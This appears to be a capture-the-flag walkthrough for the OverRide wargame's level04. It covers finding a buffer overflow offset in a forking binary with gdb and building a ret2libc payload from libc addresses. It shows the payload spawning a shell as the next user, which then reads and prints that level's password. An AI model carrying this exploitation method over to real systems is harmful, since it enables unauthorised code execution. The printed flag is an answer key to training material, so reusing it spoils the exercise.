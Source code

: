 # level04 walkthrough

## the binary
``` shell
level04@OverRide:~$ ./level04 
Give me some shellcode, k
k
child is exiting...
```

## methodology
- ret2libc attack

The `gets` function is vulnerable to buffer overflow, enabling a ret2libc attack. Calculating the offset is challenging because a child process is created in the `main` function, preventing a segmentation fault from occurring, as the parent process remains in a waiting state. However, we can overcome this issue by following the child process after a `fork()` system call, rather than the parent process:

``` shell
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 5640]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 5640]
0x41326641 in ?? ()
```

Now for the ret2libc:
1. offset = 156 bytes ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/))
2. address of `system` = 0xf7e6aed0
3. address of `exit` = 0xf7e5eb70
4. address of `/bin/bash` = 0xf7f897ec

Our payload is generated using the attached script.

## flag
``` shell
level04@OverRide:~$ python /tmp/payload04.py > /tmp/flag4
level04@OverRide:~$ cat /tmp/flag4 - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
